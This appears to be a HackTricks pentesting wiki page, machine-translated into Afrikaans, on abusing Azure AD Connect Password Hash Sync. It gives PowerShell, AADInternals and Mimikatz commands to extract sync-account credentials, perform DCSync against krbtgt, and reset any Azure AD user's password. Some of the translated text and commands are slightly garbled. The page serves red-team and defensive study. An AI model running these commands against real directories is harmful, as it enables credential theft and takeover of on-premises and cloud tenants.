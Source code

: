 # Az - PHS - Password Hash Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Wagwoord-hash-sinkronisering** is een van die aanmeldmetodes wat gebruik word om hibriede identiteit te bereik. **Azure AD Connect** sinkroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instansie na 'n wolk-gebaseerde Azure AD-instansie.

<figure><img src="../../../../images/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **meest algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hash van die wagwoord-hashes** word van die plaaslike na Azure AD gesinkroniseer. egter, **duidelike wagwoorde** of die **oorspronklike** **hashes** word nie na Azure AD gestuur nie.\
Boonop, **Ingeboude** sekuriteitsgroepe (soos domein admins...) word **nie gesinkroniseer** na Azure AD nie.

Die **hashes sinkronisering** vind elke **2 minute** plaas. egter, standaard, **wagwoord vervaldatum** en **rekening** **verval** word **nie gesinkroniseer** in Azure AD nie. So, 'n gebruiker wie se **plaaslike wagwoord verval** (nie verander nie) kan voortgaan om **toegang tot Azure hulpbronne** te verkry met die ou wagwoord.

Wanneer 'n plaaslike gebruiker 'n Azure hulpbron wil benader, vind die **authentisering plaas op Azure AD**.

**PHS** is vereis vir funksies soos **Identiteitsbeskerming** en AAD Domeindienste.

## Pivoting

Wanneer PHS geconfigureer is, word sommige **bevoorregte rekeninge** outomaties **gecreëer**:

- Die rekening **`MSOL_<installationID>`** word outomaties in plaaslike AD geskep. Hierdie rekening ontvang 'n **Directory Synchronization Accounts** rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replicatie (DCSync) toestemmings in die plaaslike AD** het.
- 'n rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan **die wagwoord van ENIGE gebruiker** (gesinkroniseer of slegs wolk) in Azure AD **herstel**.

Wagwoorde van die twee vorige bevoorregte rekeninge word **in 'n SQL-server gestoor** op die bediener waar **Azure AD Connect geïnstalleer is.** Administrateurs kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie van een van die tabelle te onttrek, wat een versleuteld is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleuteld met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`** gebruiker in plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, om hierdie te kompromitteer, is dit moontlik om privesc na die AD en na AzureAD.

Jy kan 'n [volledige oorsig van hoe hierdie akrediteer bespaar en ontsleutel in hierdie praatjie vind](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

As die **bediener waar Azure AD connect geïnstalleer is** domein-verbonden is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!CAUTION]
> Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie akrediteer te verkry.

### Misbruik van Sync\_\*

Deur die **`Sync_*`** rekening te kompromitteer, is dit moontlik om die **wagwoord** van enige gebruiker (insluitend Globale Administrators) te **herstel**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om **slegs die wagwoorde van wolk** gebruikers te **wysig** (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
It's ook moontlik om die wagwoord van hierdie gebruiker te dump.

> [!CAUTION]
> 'n Ander opsie sou wees om **bevoorregte toestemmings aan 'n dienshoof** toe te ken, wat die **Sync** gebruiker **toestemmings** het om te doen, en dan **daardie dienshoof** te benader as 'n manier van privesc.

### Seamless SSO

Dit is moontlik om Seamless SSO met PHS te gebruik, wat kwesbaar is vir ander misbruik. Kontroleer dit in:

{{#ref}}
seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}
